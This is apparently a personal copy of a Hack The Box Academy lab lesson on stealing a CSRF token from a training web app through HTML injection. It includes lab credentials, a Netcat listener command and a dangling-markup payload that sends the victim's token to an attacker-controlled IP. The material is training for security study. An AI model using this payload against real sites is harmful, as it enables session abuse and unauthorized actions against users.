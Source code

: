 ```yaml
---
sticker: emoji//1f512
---
```

The vast majority of applications nowadays perform actions through POST requests. Subsequently, CSRF tokens will reside in POST data. Let us attack such an application and try to find a way to leak the CSRF token so that we can mount a CSRF attack.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`csrf.htb.net`) to access the application.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

- Email: heavycat106
- Password: rocknrol

This is an account that we created to look at the application's functionality.

After authenticating as a user, you'll notice that you can delete your account. Let us see how one could steal the user's CSRF-Token by exploiting an HTML Injection/XSS Vulnerability.

Click on the "Delete" button. You will get redirected to `/app/delete/<your-email>`

![image](https://academy.hackthebox.com/storage/modules/153/36.png)

Notice that the email is reflected on the page. Let us try inputting some HTML into the _email_ value, such as:

![](Pasted%20image%2020250219130350.png)

![image](https://academy.hackthebox.com/storage/modules/153/37.png)

If you inspect the source (`Ctrl+U`), you will notice that our injection happens before a `single quote`. We can abuse this to leak the CSRF-Token.

![image](https://academy.hackthebox.com/storage/modules/153/39.png)

Let us first instruct Netcat to listen on port 8000, as follows.

```shell-session
smoothment@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

Now we can get the CSRF token via sending the below payload to our victim.


```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

While still logged in as Julie Rogers, open a new tab and visit `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. You will notice a connection being made that leaks the CSRF token.

![image](https://academy.hackthebox.com/storage/modules/153/40.png)

Since the attack was successful against our test account, we can do the same against any account of our choosing.

We remind you that this attack does not require the attacker to reside in the local network. HTML Injection is used to leak the victim's CSRF token remotely!

Next, we will cover how you can chain XSS and CSRF to attack a user's session.

# Question
---
![](Pasted%20image%2020250219130418.png)

